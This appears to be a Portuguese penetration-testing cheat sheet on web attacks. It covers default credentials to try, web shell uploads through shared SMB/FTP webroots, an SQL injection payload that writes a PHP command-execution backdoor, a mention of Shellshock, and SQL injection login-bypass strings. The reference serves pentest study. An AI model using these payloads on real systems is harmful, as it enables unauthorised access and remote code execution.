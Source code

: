 1: Sempre tente `admin:admin` primeiro ou `admin:password`, `guest:guest`,  `admin:password123`, `user:admin`

2: Pesquise no Google por `login/credencial` padrão -> Exemplo: `joomla default credentials`

![image](https://user-images.githubusercontent.com/37910997/154769188-b1b5adc1-5ce0-497e-9f02-ca4f0a40f251.png)


## Webroot

1: Se o webroot de um servidor web compartilhar o mesmo diretório com `SMB` ou `FTP`, e
você tem `permissão de gravação`, tente fazer `upload de um web shell`

2: No `Linux`, uma webroot geralmente é `/var/www/html` ou `/var/www/[appname]` - Lembre-se que depende muito do OS, no `free-bsd` o mesmo app pode ser localizado em um caminho diferente ao encontrado em outra distro, como por exemplo, uma distro Ubuntu.

3: Aproveite o `SQLi` para escrever um `backdoor` para webroot: `' UNION SELECT ("<?php
echo passthru($_GET['cmd']);") INTO OUTFILE 'var/www/html/cmd.php' -- -'`

4: Recupere webroot de `mensagens de erro`, `phpinfo`, etc.

## CGI

1: Vulnerabilidade de `Shellshock`

## Login Bypass

Existem várias maneiras de ignorar o login

1: A `autenticação não ajuda`, ou a autenticação é `desnecessária` para nossa
`enumeração/exploração`. Esta é uma das situações mais ideais.

2: Credencial `padrão/fraca`. Esta é também uma das situações mais ideais.

3: carga útil `SQLi`

  - a)
       ```
       username=admin' or '1'='1
       password=[arbitrary]
       ```
  - b)
       ```
       username=admin
       password=' or '1'='1
       ```
  - c)
       ```
       username=admin
       password=' or 1=1-- -
       ```
  - d)
       ```
       username=admin' or 1=1-- -
       password=[arbitrar]
       ```
       
